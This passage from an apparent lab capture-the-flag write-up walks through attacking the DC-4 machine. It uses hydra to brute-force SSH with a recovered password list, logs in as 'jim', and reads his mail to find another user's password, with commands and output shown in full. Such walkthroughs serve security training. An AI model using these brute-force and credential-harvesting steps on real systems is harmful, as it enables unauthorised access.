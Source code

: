 Then, transfer `old-passwords.bak` to the attacker machine and `brute force` the user `jim` with the found wordlist. We will use `hydra` again.
- Command: `hydra -l jim -P old-passwords.bak ssh://192.168.142.195`

```shell
geobour98@kali:~$ hydra -l jim -P old-passwords.bak ssh://192.168.142.195
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-28 20:05:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 252 login tries (l:1/p:252), ~16 tries per task
[DATA] attacking ssh://192.168.142.195:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 109 to do in 00:01h, 13 active
[STATUS] 105.50 tries/min, 211 tries in 00:02h, 44 to do in 00:01h, 13 active
[22][ssh] host: 192.168.142.195   login: jim   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-28 20:08:10
```


Now we can login with `SSH` as the user `jim` with the found password.

```shell
geobour98@kali:~$ ssh jim@192.168.142.195                                     
The authenticity of host '192.168.142.195 (192.168.142.195)' can't be established.
ED25519 key fingerprint is SHA256:0CH/AiSnfSSmNwRAHfnnLhx95MTRyszFXqzT03sUJkk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.142.195' (ED25519) to the list of known hosts.
jim@192.168.142.195's password: 
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$
```

Then, we run `find` command to find files owned by `jim`. The most interesting is `/var/mail/jim`, which contains the password of user `charles`. So, we switch to that user.

```shell
jim@dc-4:~$ find / -type f -user jim 2>/dev/null
[REDACTED]
/var/mail/jim
[REDACTED]
jim@dc-4:~$ cat /var/mail/jim
[REDACTED]
Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anyt
hing goes wrong.

Password is:  [REDACTED]

See ya,
Charles
```
